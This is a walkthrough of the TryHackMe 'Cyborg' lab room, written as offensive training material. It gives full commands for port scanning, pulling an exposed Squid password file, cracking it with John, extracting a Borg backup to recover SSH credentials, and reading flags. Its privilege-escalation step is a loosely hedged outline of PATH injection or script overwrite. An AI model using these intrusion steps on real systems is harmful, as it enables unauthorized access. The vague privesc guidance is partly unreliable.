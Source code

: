 ## Room : https://tryhackme.com/room/cyborgt8
## Step 1: Recon
Use a thorough TCP scan with service scripts.

```bash
sudo nmap -sC -sV -T4 -p- MACHINE_IP
```
Expected: SSH(22), HTTP(80) open.

---

## Step 2: Web Enumeration and Hash Retrieval
Browse HTTP and enumerate common/interesting paths; the app exposes Squid config/passwd over the web.

Directly fetch the Squid password file once discovered.

```bash
curl -s http://MACHINE_IP/etc/squid/passwd | tee passwd.hash
```
Typical content includes an MD5-crypt (APR1) hash for user `music_archive`.

---

## Step 3: Crack MD5-crypt (APR1) with John
Use rockyou to crack the APR1 hash.

```bash
john passwd.hash --wordlist=/usr/share/wordlists/rockyou.txt
john --show passwd.hash
```
Expected result: `music_archive:squidward` (password “squidward”).

---

## Step 4: Download and Extract the Site Archive
On the web app, navigate to the admin/archive section and download `archive.tar`.

```bash
# after downloading archive.tar from http://MACHINE_IP/admin (Archive > Download)
tar -xvf archive.tar
```
This reveals a Borg repository at `home/field/dev/final_archive` with README, config, data/, index, nonce, integrity/hints files.

---

## Step 5: List and Extract Borg Repository
Install borgbackup if missing, then list and extract using the cracked passphrase “squidward.”

```bash
sudo apt-get update && sudo apt-get install -y borgbackup
borg list ./home/field/dev/final_archive
borg extract ./home/field/dev/final_archive::music_archive
```
After extraction, inspect the recovered files (typically `home/alex/Documents/note.txt`) to find SSH credentials for alex.

```bash
grep -Rni "alex" .
cat home/alex/Documents/note.txt
```
Expected credential example from multiple walkthroughs: `alex:S3cretP@s3` (actual note content provided in recovered files).

---

## Step 6: SSH as alex and Get User Flag
SSH using the recovered credentials.

```bash
ssh alex@MACHINE_IP
```
Then read the user flag as usual (e.g., `~/user.txt`).

```bash
cat ~/user.txt
```

---

## Step 7: Privilege Escalation
Enumerate sudo permissions and root-run scripts; this box is known to allow privesc via a misconfigured root-privileged script or PATH abuse.

Check sudo and look for backup.sh or similar.

```bash
sudo -l
```
If a root script (e.g., `backup.sh`) is allowed without password and is path-abusable or writable, leverage it accordingly; several writeups mounted/extracted the Borg repo to find alex creds and then used a sudo-enabled backup script to escalate.

### Example patterns seen:
- If PATH injection is possible inside a root-run script, craft a malicious binary named as the called command and adjust PATH.
- If the script is writable or executes a file in a writable path, replace it to spawn a shell.

Once exploited:

```bash
id
cat /root/root.txt
```

> **Note:** Exact privesc mechanics can vary slightly by instance; the consistent approach is to enumerate `sudo -l`, readable/writable root-run scripts, and PATH usage within those scripts.
